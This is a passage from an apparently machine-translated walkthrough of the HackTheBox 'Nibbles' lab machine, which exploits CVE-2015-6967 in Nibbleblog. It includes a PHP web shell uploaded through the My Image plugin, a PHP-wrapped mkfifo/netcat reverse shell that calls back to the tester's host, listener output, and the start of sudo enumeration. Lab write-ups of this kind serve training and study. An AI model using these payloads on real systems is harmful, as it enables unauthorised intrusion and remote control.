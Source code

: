     nibbler@Nibbles:/home$ cd nibbler
    
    nibbler@Nibbles:/home/nibbler$ ls
    personal  personal.zip  user.txt
    
    nibbler@Nibbles:/home/nibbler$ wc -c user.txt
    33 user.txt
    
    nibbler@Nibbles:/home/nibbler$ cat user.txt
    b02ff32b...
    

### 没有元潜行

[此博客](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)提供了有关CVE-2015-6967以及如何利用它的良好文章。

1.  获取管理员凭据 - 我们已经拥有此凭据。
2.  激活“我的图像”插件。如果我们单击管理页面左侧菜单上的“插件”，则会将我们带到已安装插件的列表：因此我们可以单击易受攻击的插件“我的图像”下的“配置”。我们得到了一个上传表格：![1529838022141](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1529838022141.png)![1529838333058](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1529838333058.png)
3.  使用表单上传 cmd.php。
    
        root@kali:~/hackthebox/nibbles-10.10.10.75# cat cmd.php
        <?php system($_REQUEST['cmd']); ?>
        
    
4.  访问`http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=[command]` ![1529838501643](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1529838501643.png)

无论出于何种原因，我发现我与这个网站的会话持续时间不长（可能是其他用户登录并踩到我的shell，因为他们都被命名为image.php）。所以让我们得到一个真正的壳。我们将 php 更改为：

    root@kali:~/hackthebox/nibbles-10.10.10.75# cat callback.php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>
    

然后重复上述步骤，并在访问时：`image.php`

    root@kali:~/hackthebox/nibbles-10.10.10.75# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 55268
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    

## 私人

Either through running or just by checking , we’ll see the following:`LinEnum.sh``sudo -l`

    nibbler@Nibbles:/$ sudo -l
    sudo: unable to resolve host Nibbles: Connection timed out
    Matching Defaults entries for nibbler on Nibbles:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    